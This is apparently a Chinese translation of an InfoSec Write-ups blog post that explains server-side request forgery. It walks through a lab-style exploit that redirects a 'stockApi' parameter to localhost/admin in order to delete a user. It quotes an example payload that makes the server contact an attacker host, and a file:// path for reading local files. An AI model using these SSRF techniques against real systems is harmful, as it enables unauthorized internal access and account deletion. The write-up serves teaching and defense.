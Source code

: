 # 利用:用于管理员访问的 SSRF

> 原文：<https://infosecwriteups.com/exploiting-ssrf-for-admin-access-31c30457cc44?source=collection_archive---------2----------------------->

**简介:**

服务器端请求伪造(SSRF):- SSRF 是一种攻击，攻击者可以迫使易受攻击的服务器触发对第三方服务器和/或内部资源的恶意请求。然后，可以利用此漏洞发起特定的攻击，例如跨站点端口攻击、服务枚举和各种其他攻击。

通常，攻击者可以完全或部分控制正在发送的请求，服务器会在不进行任何验证的情况下处理该请求。

**工作中** : SSRF 可用于向防火墙后或未公开面对的其他内部资源发出请求。通过使用 SSRF，我们可以访问基础架构参数，有时这些参数很容易被利用，进一步利用基础架构。

我们试图通过下图来理解。

![](img/f32ce04ada914527ce80bb50221ec922.png)

攻击者试图访问内部服务器，因为防火墙阻止了对内部服务器的直接访问，所以他/她的访问被拒绝。

所以他试图访问公共服务器。他试图在公共服务器上创建一个请求，公共服务器将该请求发送到内部服务器。

内部服务器将响应由内部资源发送的精心编制的请求

通过使用上述步骤，攻击者获得了他在步骤 1 中无法获得的内部服务器的访问权限。

**攻击场景:**根据需求，以不同的方式向内部服务器发送请求。

**在受防火墙保护的内部网上的内部主机上进行端口扫描:**它使攻击者能够针对防火墙后面的系统执行端口扫描。根据响应的不同，攻击者可以推断出开放和关闭的端口。

**枚举服务/泄露敏感信息:**攻击者可以枚举 SSH、DICT、SFTP 和其他协议的版本[***https://test.com/uri?url=sftp://attacker:1112/***](https://test.com/uri?url=sftp://attacker:1112/)这将向攻击者控制的服务器发送请求，泄露所用 SFTP 的版本。您也可以使用 FTP、DICT、GOPHER 等其他模式来枚举它们的版本。

**攻击内部应用:**可疑参数上的漏洞，因为我们不知道服务器是如何处理参数的。因此攻击者可以通过操纵请求中的参数来访问内部应用程序。

**使用文件处理程序访问本地 web 服务器文件:*file:///c:/windows/system32/。*:**

**剥削:**

我们的目标是获得对管理仪表板的访问权限，并删除一个从外部无法访问的用户。

该应用程序具有股票特性功能，可从内部系统获取数据。管理接口位于 [http://localhost/admin](http://localhost/admin) 。

现在通过 burp 拦截股票 URL 请求:

**请求:**

![](img/6233d550ab3d82fe0a08aebcd9c57e81.png)

在这里，我们可以清楚地看到主体“stockApi”正在向一个端点发送一个请求，我们可以完全控制这个参数，我们可以根据需要修改它。让我们将这个请求发送到 repeater，并尝试修改股票 API 参数。

**请求&响应:**

![](img/e3bd0ee9a5f347ec9cebbfb4f812fd41.png)

在上面的屏幕截图中，我们可以看到我们可以使用修改后的请求访问管理面板。我们得到了三个用户名和他们各自的网址来删除现有的帐户。所以我用删除用户端点替换“stock API”URL，并检查结果。

**请求:**

![](img/32719c7be84b1dc461c352518f5f30e6.png)

转发这个请求后，我得到 302(重定向)

![](img/eaa23a06cee2ae1f99d749cb4a398319.png)

当我启动 follow redirection 时，它将我重定向到 admin URL，并显示一条消息说该用户已被删除。

![](img/82fe98b9621f559126b3c5db293ef61e.png)

我们有管理员权限。

**预防措施/缓解措施**

不要相信用户数据和执行数据验证。

将应用程序需要访问的 DNS 名称或 IP 地址列入白名单

禁用未使用的 URL 模式，如 ftp://、s ftp://
